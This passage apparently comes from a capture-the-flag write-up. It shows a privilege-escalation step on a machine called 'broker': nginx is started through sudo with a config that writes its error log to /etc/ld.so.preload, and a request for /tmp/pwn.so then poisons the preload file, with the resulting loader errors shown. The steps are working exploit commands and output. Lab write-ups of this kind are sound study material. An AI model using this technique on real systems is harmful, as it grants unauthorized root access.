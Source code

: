 I’ll start that nginx server:

```

activemq@broker:/tmp$ sudo /usr/sbin/nginx -c /tmp/nginx.conf 
activemq@broker:/tmp$ netstat -tnlp | grep 1339
tcp        0      0 0.0.0.0:1339            0.0.0.0:*               LISTEN      - 

```

Now there’s a server listening on 1339 that writes error logs to `/etc/ld.so.preload`.

#### Poison ld.so.preload

Now I’ll request `/tmp/pwn.so`. The first request looks like a normal 404:

```

activemq@broker:/tmp$ curl localhost:1339/tmp/pwn.so
<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>

```

It’s important that the library not exist yet, or it won’t error and thus won’t write the log. If I run `curl` again, I’ll see errors:

```

activemq@broker:/tmp$ curl localhost:1339/tmp/pwn.so
ERROR: ld.so: object '2023/11/08' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '21' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '13' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '40' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '[error]' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '2426' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>

```
